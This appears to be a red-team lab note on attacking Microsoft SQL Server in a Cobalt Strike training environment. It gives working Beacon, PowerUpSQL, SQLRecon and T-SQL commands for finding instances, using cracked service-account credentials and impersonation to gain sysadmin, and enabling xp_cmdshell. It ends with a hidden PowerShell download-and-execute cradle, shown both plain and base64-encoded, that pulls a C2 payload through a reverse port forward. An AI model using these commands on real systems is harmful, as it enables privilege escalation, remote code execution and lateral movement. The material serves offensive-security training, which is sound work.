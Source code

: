 # MS SQL Servers

Microsoft SQL Server is a relational DBMS commonly found in Windows, used to store information to support many business functions. In addition to the obvious data theft opportunities, MSSQL has a large attack surface allowing code execution, privilege escalation, lateral movement, and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are good for enumerating and interacting with MS SQL.

PowerUpSQL can find MSSQL using Get-SQLInstanceDomain, Get-SQLInstanceBroadcast and Get-SQLInstanceScanUDP:

* Get-SQLInstanceDomain searches for SPNs that begin with MSSQL*. Can also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

      beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
      beacon> powershell Get-SQLInstanceDomain

* Get-SQLConnectionTest can be used to test whether we can connect to the database:

      beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

* Get-SQLServerInfo to gather more information about the instance:

      beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

If multiple SQL Servers exist, chain these commands together to automate the data collection:

    beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the ```info``` module.

    beacon> execute-assembly SQLRecon.exe /enum:sqlspns
    beacon> execute-assembly SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

The /auth:wintoken option uses the access token of the Beacon. The example output shows that while the database is accessible, the current user is not a sysadmin. SQLRecon has a nice module which can show us what roles we do have:

    beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

On a default installation, standard users do not have the "public" role by default and must be explicitly granted through SQL Server Manager Studio (SSMS). The SQL information cannot be enumerated if the user's security context does not have a valid role. Finding a user (or group) that does have access can be challenging. Look for appropriately named domain groups and their members:

    beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

Another option is to go after the MS SQL service account itself (often given sysadmin). The basis of BloodHound's SQLAdmin attack path. The domain account used to run the service is DEV\mssql_svc and the account is kerberoastable owing to its SPN.  If we can crack its plaintext password, we can use it to gain access to the SQL instance. The credentials can be used with make_token in Beacon and /a:WinToken in SQLRecon or the /a:WinDomain option with /d:<domain> /u:<username> /p:<password> in SQLRecon directly:

    beacon> execute-assembly SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

With access several options exist for issuing queries against a SQL instance.

* Get-SQLQuery from PowerUpSQL:

      beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

* SQLRecon:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

* mssqlclient.py from Impacket via proxychains:

      ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
      SQL> select @@servername;

* [HeidiSQL](https://www.heidisql.com) via Proxifier (a GUI tool)

## MS SQL Impersonation

MS SQL impersonation/context switching allows an executing user to use the permissions of another user without authenticating (must be explicitly granted through securable configurations: Login properties > Impersonate permission; Domain Users impersonating the DEV\mssql_svc account is a security issue since it elevates all Domain Users to sysadmin). Discover accounts to impersonate manually using the following queries:

      SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';

The IDs returned don't mean much, so look them up with:

      SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;

Or write a SQL query joins these two, or use SQLRecon's impersonate module:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
      
Take advantage of this as bfarmer, who we know is not a sysadmin:

      > SELECT SYSTEM_USER;
      DEV\bfarmer
      > SELECT IS_SRVROLEMEMBER('sysadmin');
      0

Use EXECUTE AS to execute a query in the context of the target:

      > EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
      DEV\mssql_svc
      > EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
      1

SQLRecon modules can also impersonate by prefixing the module name with an i and specifying the principal to impersonate:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc

## MS SQL Command Execution

xp_cmdshell can be used to execute shell commands on the SQL server if user has sysadmin privileges. Invoke-SQLOSCmd from PowerUpSQL provides a simple means of using it:

      beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

The same will fail if you try manually in Heidi or mssqlclient, because xp_cmdshell is disabled.

      SQL> EXEC xp_cmdshell 'whoami';
      [-] ERROR(SQL-2): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.

To show the state of xp_cmdshell (0 shows that xp_cmdshell is disabled):

      SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';

To enable it:

      sp_configure 'Show Advanced Options', 1; RECONFIGURE;
      sp_configure 'xp_cmdshell', 1; RECONFIGURE;
      
Invoke-SQLOSCmd works because it attempts to enable xp_cmdshell if it's not already, execute the given command, and then disable it again. This is a good example of why you should study your tools before you use them, so you know what is happening under the hood.

Clean up when you're done; always return a configuration change on a target to its original value.

SQLRecon has a module for changing the xp_cmdshell configuration, which can also be combined with the impersonation module:

      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
      beacon> execute-assembly SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig

With command execution, we can try to execute a Beacon payload. As with other servers in the lab, the SQL servers cannot talk directly to the team server to download a payload. 

1: Instead, setup a reverse port forward to tunnel that traffic through the C2 chain:

      beacon> run hostname
      beacon> getuid
      beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
      beacon> rportfwd 8080 127.0.0.1 80

2: Host smb_x64.ps1 at /b on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server.

      beacon> portscan 10.10.122.25 445

3: Download and execute the payload:

      powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"

or

      powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=

4: Keep an eye on the web log to see when the payload has been fetched:

      01/05 15:09:07 visit (port 80) from: 127.0.0.1
	      Request: GET /b
	      page Serves /home/attacker/cobaltstrike/uploads/smb_x64.ps1
	      null

5: Link to the Beacon:

      beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337

What payload would you use if port 445 was closed?  Experiment with using the pivot listener here instead of SMB.
